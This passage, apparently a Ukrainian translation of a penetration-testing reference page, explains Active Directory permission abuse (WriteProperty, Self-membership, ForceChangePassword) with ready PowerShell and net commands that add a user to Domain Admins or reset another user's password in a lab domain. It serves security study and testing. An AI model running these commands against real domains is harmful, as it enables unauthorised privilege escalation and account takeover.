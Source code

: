 
Володіння цими привілеями на об'єкті комп'ютера або обліковому записі користувача дозволяє:

- **Kerberos Resource-based Constrained Delegation**: Дозволяє захопити об'єкт комп'ютера.
- **Shadow Credentials**: Використовуйте цю техніку, щоб видавати себе за обліковий запис комп'ютера або користувача, експлуатуючи привілеї для створення Shadow Credentials.

## **WriteProperty on Group**

Якщо користувач має `WriteProperty` права на всі об'єкти для конкретної групи (наприклад, `Domain Admins`), він може:

- **Add Themselves to the Domain Admins Group**: Досягається поєднанням команд `net user` та `Add-NetGroupUser`; цей метод дозволяє ескалацію привілеїв у межах домену.
```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
## **Self (самочленство у групі)**

Цей привілей дозволяє зловмисникам додавати себе до певних груп, таких як `Domain Admins`, через команди, які безпосередньо змінюють членство в групі. Використання наступної послідовності команд дозволяє додати себе:
```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
## **WriteProperty (самододавання до груп)**

Схожа привілегія, вона дозволяє атакувальникам безпосередньо додавати себе до груп, змінюючи властивості груп, якщо вони мають право `WriteProperty` на ці групи. Підтвердження та виконання цієї привілегії здійснюються за допомогою:
```bash
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```
## **ForceChangePassword**

Маючи `ExtendedRight` на користувача для `User-Force-Change-Password`, можна скинути пароль без знання поточного пароля. Перевірка цього права та його експлуатація можуть виконуватись через PowerShell або альтернативні інструменти командного рядка, що надає кілька методів скидання пароля користувача, включно з інтерактивними сесіями та one-liners для неінтерактивних середовищ. Команди варіюються від простих викликів PowerShell до використання `rpcclient` на Linux, що демонструє різноманітність векторів атаки.
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

